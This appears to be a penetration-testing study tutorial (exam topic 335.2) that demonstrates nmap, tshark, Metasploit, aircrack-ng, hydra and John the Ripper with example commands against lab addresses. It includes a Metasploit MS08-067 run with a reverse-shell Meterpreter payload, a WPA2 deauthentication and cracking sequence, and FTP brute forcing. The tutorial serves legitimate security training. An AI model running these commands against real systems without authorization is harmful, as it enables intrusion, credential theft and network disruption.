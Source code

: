 ```yaml
---
title: "335.2 Penetration Testing (weight: 3)"
#bookCollapseSection: true
---
```


# Tech Tutorial: 335.2 Penetration Testing (weight: 3)

## Introduction

Penetration testing, also known as pen testing or ethical hacking, is a crucial activity in cybersecurity used to identify, evaluate, and mitigate vulnerabilities in systems. It involves simulating attacks that malicious actors might use to exploit security weaknesses. This tutorial covers key knowledge areas and utilities used in penetration testing, providing a detailed guide with practical code examples.

## Key Knowledge Areas:

- Understanding of network and system vulnerabilities
- Knowledge of common attack vectors and mitigation
- Familiarity with penetration testing tools and methodologies
- Ability to analyze test results and recommend security enhancements

## Utilities:

- `nmap`
- `wireshark`
- `metasploit`
- `aircrack-ng`
- `burpsuite`
- `hydra`
- `john the ripper`

## Step-by-Step Guide

This guide will demonstrate common penetration testing tools and techniques using detailed examples.

### 1. Network Scanning with `nmap`

`nmap` (Network Mapper) is a powerful tool used for network discovery and security auditing.

#### Example: Scanning an IP range

```bash
nmap -sP 192.168.1.0/24
```

This command scans the entire subnet to identify which IP addresses are up and running.

#### Example: Detecting OS and Services

```bash
nmap -A 192.168.1.105
```

This command performs a more aggressive scan to detect the operating system, services, and versions of the target system.

### 2. Traffic Analysis with `wireshark`

Wireshark is a network protocol analyzer that lets you see what’s happening on your network at a microscopic level.

#### Example: Capturing packets

To start capturing packets on interface `eth0`, use:

```bash
tshark -i eth0
```

### 3. Exploitation with `metasploit`

Metasploit is a penetration testing framework that makes hacking simple. It's an essential tool for creating and executing exploit code against a remote target machine.

#### Example: Using an exploit

```bash
msfconsole
use exploit/windows/smb/ms08_067_netapi
set RHOST 192.168.1.105
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 192.168.1.100
exploit
```

This sequence loads an exploit against a known vulnerability in Windows SMB, sets the target and payload, and executes the exploit.

### 4. Wireless Testing with `aircrack-ng`

Aircrack-ng is a complete suite of tools to assess WiFi network security.

#### Example: Cracking WPA2

```bash
airmon-ng start wlan0
airodump-ng wlan0mon
aireplay-ng --deauth 100 -a [target MAC] -c [client MAC] wlan0mon
aircrack-ng -w [wordlist file] -b [target MAC] [capture file]
```

This example deauthenticates a client from a WiFi network to capture the handshake packet, then attempts to crack the password using a wordlist.

### 5. Application Testing with `burpsuite`

Burp Suite is a graphical tool for testing Web application security.

#### Example: Intercepting HTTP requests

1. Open Burp Suite and configure your browser to use Burp as its proxy.
2. Navigate to a website; Burp Suite will capture the HTTP requests which can be viewed and modified.

### 6. Password Attacks with `hydra`

Hydra is a fast network logon cracker that supports numerous protocols to attack.

#### Example: Cracking FTP password

```bash
hydra -l user -P /path/to/wordlist.txt ftp://192.168.1.105
```

This command attempts to crack the FTP password for user "user" using a wordlist.

### 7. Password Cracking with `john the ripper`

John the Ripper is a popular password cracking tool.

#### Example: Cracking password hashes

```bash
john --wordlist=path/to/wordlist.txt path/to/passwords.txt
```

This will use the provided wordlist to attempt to crack the password hashes stored in `passwords.txt`.

## Conclusion

Penetration testing is a vast field with a variety of tools and techniques. This tutorial covered some of the essential tools every penetration tester should be familiar with. By understanding and applying these tools, you can significantly enhance the security posture of the systems you are testing. Always ensure to have legal authorization before testing any network or system.